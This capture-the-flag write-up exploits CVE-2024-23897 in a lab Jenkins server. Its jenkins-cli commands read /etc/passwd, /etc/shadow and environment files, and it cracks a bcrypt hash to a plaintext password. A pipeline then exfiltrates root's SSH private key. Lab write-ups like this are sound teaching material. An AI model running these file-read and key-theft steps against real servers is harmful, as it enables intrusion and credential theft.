

## Contents

1. Jenkins directory structure
2. Containerization (Docker)
4. Exploitation of [CVE-2024-23897](https://nvd.nist.gov/vuln/detail/CVE-2024-23897)
5. Privilege Escalation

## Tutorial

### Scanning and Reconnaissance

Let's start scanning the ports. Type:

```
nmap -p- --min-rate=1000 -T4 -sV -sC 10.10.11.10
```

The --min-rate=1000 option in nmap is used to specify the minimum number of packets sent per second during the scan. This is particularly useful for speeding up the scan, especially when dealing with a large number of ports (like when scanning all 65,535 TCP ports). The "T" label stands for "timing". Each timing has its own level of aggresivity.

    -T0 (Paranoid): Extremely slow and stealthy, used to avoid detection by IDS/IPS systems.
    -T1 (Sneaky): Similar to -T0 but slightly faster.
    -T2 (Polite): Waits longer between sending packets to avoid causing disruption.
    -T3 (Normal): Default setting, balances speed and performance without being too aggressive.
    -T4 (Aggressive): Faster than default, uses shorter timeouts and more parallelism.
    -T5 (Insane): Extremely fast and aggressive, can overwhelm networks and be detected easily.


We don' t have access credentials to the SSH service, so let' s try with the opened port 8080. We can observe that the specific HTTP server software is Jetty 10.0.18. The http-title indicates that the web application running on this port is Jenkins (a popular automation server for CI/CD). We also observe a "robots.txt" file which is used by websites to give instructions to web crawlers and spiders about which pages should not be indexed. You can observe in the next row the term "_/" which means that the root directory is disallowed, meaning that the entire site shouldn' t be indexed by search engines. `http-open-proxy` indcates that the scan detected the server might be an open proxy, which means it could potentially allow unauthorized users to relay their requests through this server.

Let's enter in 10.10.11.10:8080 and see what appears


Before scrolling and visiting sections, we have to detect the software version that the site is built on. We see that it is Jenkins 2.441.

#### Jenkins

[Jenkins](https://en.wikipedia.org/wiki/Jenkins_(software)) is a tool for automating the software development process from code integration and testing to deployment. Its extensibility and integration capabilities make it a popular choice for teams practicing DevOps and agile methodologies.

When you access the webpage at `http://10.10.11.8:8080` and observe that the Linux server (pic1) uses Jenkins (pic2), it means that Jenkins is installed and running on that server. The Jenkins web interface is being served on port 8080, allowing you to interact with Jenkins through your web browser. How do we interact with the server through Jenkins? And more important, is there a vulnerability for Jenkins 2.441?

Let's look for "Jenkins 2.441 vulnerability" on the internet. After a quick search we find the following [URL](https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314) on the Jenkins documentation. It makes reference to the vulnerability [CVE-2024-23897](https://nvd.nist.gov/vuln/detail/CVE-2024-23897).

##### Vulnerability explained

`Arbitrary file read vulnerability through the CLI can lead to RCE`. RCE stands for Remote Code Execution.
The documentation states that Jenkins has a built-in command line interface (CLI) to access Jenkins from a script or shell environment (we will use shell environment). Jenkins uses the `args4j` library to parse command arguments and options on the Jenkins controller when processing CLI commands. This command parser (args4j library) has a feature that replaces an `@` character followed by a file path in an argument with the file’s contents (`expandAtFiles`). This feature is enabled by default and Jenkins 2.441 and earlier, LTS 2.426.2 and earlier does not disable it.

So, how do we get a Jenkins CLI? Search on the internet `get jenkins cli`, access the Jenkins documentation, read the description and access to section [Downloading the client](https://www.jenkins.io/doc/book/managing/cli/#downloading-the-client), which is what we want to interact with the server. The documentation states that the CLI client can be downloaded directly from a Jenkins controller at the URL `/jnlpJars/jenkins-cli.jar`, in effect `JENKINS_URL/jnlpJars/jenkins-cli.jar`. So we connect to the host server and introduce such URL:


Now that we have the Jenkins-CLI, how do we use Jenkins-CLI? How do we insert the payload into the webserver?

##### How to use Jenkins-CLI

The general syntax of using Jenkins-CLI.jar can be found [here](https://www.jenkins.io/doc/book/managing/cli/#using-the-client). A general command should be:

```
java -jar jenkins-cli.jar [-s JENKINS_URL] [global options...] command [command options...] [arguments...]
```

Now that we know the general command structure. How do we modify it such that we inject a payload?

##### How to insert Payload into Jenkins 2.441

Searching `CVE-2024-23897 PoC` we find the following Splunk [site](https://www.splunk.com/en_us/blog/security/security-insights-jenkins-cve-2024-23897-rce.html). Reading the section `Payload Body Explanation` we can observe the payload structure as:

`[Command Length][Command ('help')][File Path Length][File Path ('@/etc/passwd')][Other Parameters]`

From here we can infere that the injection should be something like `Jenkins-CLI command -s http://<JENKINS_SERVER>:8080 help "@/etc/passwd"`. Therefore, the injection should be:

```
java -jar jenkins-cli.jar -s http://<JENKINS_SERVER>:8080 help "@/etc/passwd"
```

Why the path `/etc/passwd`? We could search for other filepaths. Searching the `/etc/passwd` file on a Unix or Linux system is crucial for both administrative and security purposes because it contains vital information about all user accounts on the system. This file lists usernames, user IDs, group IDs, home directories, and default shells for each user, though it does not contain actual passwords, which are stored in `/etc/shadow` (we will check it later). For system administrators, `/etc/passwd` is essential for managing user accounts and auditing the system to identify any unusual or unauthorized entries. From a security perspective, attackers often target this file during reconnaissance to gather information about user accounts, which can be used for privilege escalation, targeted password attacks, and other exploitative activities.


In this picture, we attempted to use the Jenkins CLI to read the `/etc/passwd` file by passing it as an argument to the help command. The help command interpreted the contents of `/etc/passwd` as multiple arguments, leading to the error message: `ERROR: Too many arguments: daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin`. This line is the first line from `/etc/passwd`, showing the entry for the `daemon` user. The `daemon` user on Unix-like systems is a special system account used to run background services (daemons). It typically has limited permissions and is not intended for interactive login. This account helps in organizing and running system processes securely without giving them root privileges. There is also presence of the `root` user. The structure `root:x:0:0:root:/root:/bin/bash` from `/etc/passwd` provides some details about the root user account, for example `bin/bash` as shell. Let' s see the `/etc/shadow` to find the password:



No contents for `java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' help "@/etc/shadow"`. Let' s keep exploiting the server with this command line. We can also enumerate the environment of the Jenkins server. Let' s target `/proc/self/environ`, a special file in the proc filesystem on Unix-like operating systems that contains the environment variables of the process. Type:

```
java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' help "@/proc/self/environ"
```

You will see the following outcome


First we get a list of commands for the Jenkins server. This is interesting because maybe these variables can help us to exploite the machine more.


At the end of the prompt (bottom), the `help` command cannot interpretate `HOSTNAME=...` like it did with the other variables. So returns an error. Nonetheless, we obtain several paths and addresses of interest.

1. HOSTNAME=0f52c222a4cc
2. JENKINS_UC_EXPERIMENTAL=https://updates.jenkins.io/experimental
3. JAVA_HOME=/opt/java/openjdk
4. JENKINS_INCREMENTALS_REPO_MIRROR=https://repo.jenkins-ci.org/incrementals
5. COPY_REFERENCE_FILE_LOG=/var/jenkins_home/copy_reference_file.log
6. PWD=/JENKINS_SLAVE_AGENT_PORT=50000
7. JENKINS_VERSION=2.441
8. HOME=/var/jenkins_home
9. LANG=C.UTF-8
10. JENKINS_UC=https://updates.jenkins.io
11. SHLVL=0
12. JENKINS_HOME=/var/jenkins_home
13. REF=/usr/share/jenkins/ref
14. PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

Observe that we can analyze potential files (user.txt, root.txt) in these environment variables (HOME, PATH, or JENKINS_HOME) because that what we are targetting in this machine. Let' s try to find the user flag `user.txt` on these paths.

```
java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' help "@/var/jenkins_home/user.txt"
```


Remember you have to introduce the `user.txt` filename to read it because the vulnerability reads files, not directories. Usually user flags are located in $HOME directory in HTB.

### Root flag

There are no available root paths declared. Finding the root flag by brutte force is not a correct way to approach it. Also we don't know if we have admin privileges (which is very unlikely). SO the best way is to mimic that hostname in a container (such as Docker) and explore it. If the user left the files in the same way as in the default mode, it is very likely to find them in the same paths too.

Why a Docker container?

The hostname `0f52c222a4cc` is likely indicative of a containerized environment, specifically a Docker container. It serves as a unique identifier for the container, useful in various scenarios such as system identification, network communication, logging, monitoring, and automation within the context where the environment variable is set.

So type in google "jenkins docker" and select the jenkins GitHub repository (I read the [documentation](https://www.jenkins.io/doc/book/installing/docker/) and not useful information on how to use it easily found). Access the Jenkins [GitHub](https://github.com/jenkinsci/docker) repository.

First, we need to install docker. For that type: `sudo apt install docker.io`

Let's setup the Docker container for Jenkins. Type:

```
docker pull jenkins/jenkins:lts-jdk17
```

(pic11)

```
docker run -p 8080:8080 --restart=on-failure jenkins/jenkins:lts-jdk17
```
(pic12)

First command pulls a specific Docker image from Docker Hub. Second command runs a Docker container using the Jenkins image that was pulled in the previous step.
1. `docker run`: Starts a new container from an image.
2. `-p 8080:8080`: Maps the port 8080 from the host to port 8080 on the container. It makes Jenkins accessible via `http://<host-ip>:8080`.
3. `--restart=on-failure`: Ensures that the container will automatically restart if it crashes or exits with a non-zero status.
4. `jenkins/jenkins:lts-jdk17`: The docker image that is going to be used for the container.

We have a password generated. So, now let's enter into this docker container. The container has been set up locally, so we should enter with `127.0.0.1` through port `8080` which is the one setled in the previous command. Open your browser and access `127.0.0.1:8080`

(pic13)

Introduce your generated password. Select `Select plugins to install` and unselect all marks in the list to accelerate the installation. Introduce Username, password and fullname in your configuration. Accept your default Jenkins URL.

Now open a new terminal and run the following commands:

1. `sudo docker ps -a`: To list all containers (running or not).
2. `sudo start 4e`: To start the Docker container that beggins with 4e (yours will be different. Check your list of containers with the prevous command.
3. `sudo docker exec -it 4e bash`: Opens a terminal inside the running container that starts with 4e ID.

(pic15)

At this point we must start thinking, what do we want? Obtaining the root flag. What do we aim for? The sudo password. Where can we find such sudo password? We know that in my docker container, the sudo password is `15a01c1cb3ce4abab9cc6e7976882c5d`. So it would be desirable to find a file that contains information `user:password`. These kind of files are usually named with the keyword "user, root, password...". I only show the first one:

(pic16)

These files are usually for:
1. user.svg, new-user.svg, computer-user-offline.svg: Icon or image files used in the Jenkins web interface.
2. users.xml: Configuration or data file that stores user information for Jenkins.

`.xml` files are used for: Data storage, configuration, data exchange or document formatting. In Jenkins, .xml files often store configuration settings, user data, and job definitions. Let' s open users.xml

(pic17)

What is this? Well, first we must know a bit about .xml files. The first line specifies the XML version and character encoding. Third line the version of the user ID mapping format. The next part is the ID to Directory Name Map (Maps user IDs to their corresponding directory names), for example, here, the file is used by Jenkins to map user ID "kali" to a unique directory name for storing user-specific data (kali_5195686553352608093).

So there must be a directory "kali_XXXX". We access the location of `users.xml` and observe that effectively, there was a folder with such name. Let's see its contents.

(pic18)

The `config.xml` file in Jenkins for the user "kali" holds detailed configuration information for that specific user. It includes the user’s ID and full name, as well as various properties and settings. These properties manage user preferences. It also contains user-specific security details like the encrypted password and API tokens.

The password stored in this file is encrypted using bcrypt, a hashing algorithm designed to securely hash passwords. This ensures that even if someone gains access to the config.xml file, they cannot easily retrieve the plaintext password. Nonetheless, we can easily decrypt it with [John the Ripper](https://en.wikipedia.org/wiki/John_the_Ripper).

So we got the list of users with `cat /var/jenkins_home/users/users.xml`. Let' s see what happens if er inject this command into our target.

(pic19)

It looks like we don' t see all the content. Nonetheless, jenkins-cli.jar has several commands. We only attempted help. Also, when you run `java -jar jenkins-cli.jar` you get the following outcome:  `The available commands depend on the server. Run the 'help' command to see the list.`. So type: `java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' help`.

(pic20)

You will get an enormous list of commands to try (more than 15). Trying all of them is a crazy task, so I made a script to test all of them with the same command. The structure of the command is:

```
java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' [COMMAND] "@/var/jenkins_home/users/users.xml"
```

If you want to get the script you can get it in the repository for Builder. The script showed that the `connect-node` command gives the content of all the file. So type:

```
java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' connect-node "@/var/jenkins_home/users/users.xml"
```
(pic21)

We got the username of our target Jenkins Docker!

So, there must be a user called `jennifer_12108429903186576833`. Let's search for it the same way we searched for `kali_XXXX`.

(pic22)

As expected, we found the same file in the same location. The developer didn' t change the path. Everything remained as efault.

1. email address: `jennifer@builder.htb`
2. seed: `6841d11dc1de101d`
3. The hashed password: #jbcrypt `$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a`

We can decipher the password quickly with John the Ripper:

(insert command johntheripper and screenshot)
(pic23, pending to do the screenshot)

The password is princess.

### Privilege Escalation

Hold on! So we have the user `jennifer` and the password `princess`. We could try:

1. Log in the platform with user and password
2. Create a reverse shell and use sudo-su

`jenkins-cli.jar` cannot make effective sudo-su commands. Let's try loggin in the platform.

(pic24)

(pic25)

We are in! Access "jennifer", "Credentials". You will see access to the `root` system through ssh.

(pic26)

Check in installed plugins if ssh capability is added

(pic27)

Create a pipeline

(pic28)


```
pipeline {
    agent any
    stages {
        stage('SSH') {
            steps {
                script {
                    sshagent(credentials: ['1']) {
                        sh 'ssh -o StrictHostKeyChecking=no root@10.10.11.10 "cat /root/.ssh/id_rsa"'
                    }
                }
            }
        }
    }
}
```

(pic29)

Save and click on "Build Now". Open the logs, you will see the PRIVATE KEY

(pic30)

Save the PRIVATE KEY in a .txt file and launch the following command: `chmod 600 root_private_key.txt`

`ssh -i root_private_key.txt root@10.10.11.10`

(pic33)

Congratulations!  Now you have the root flag!
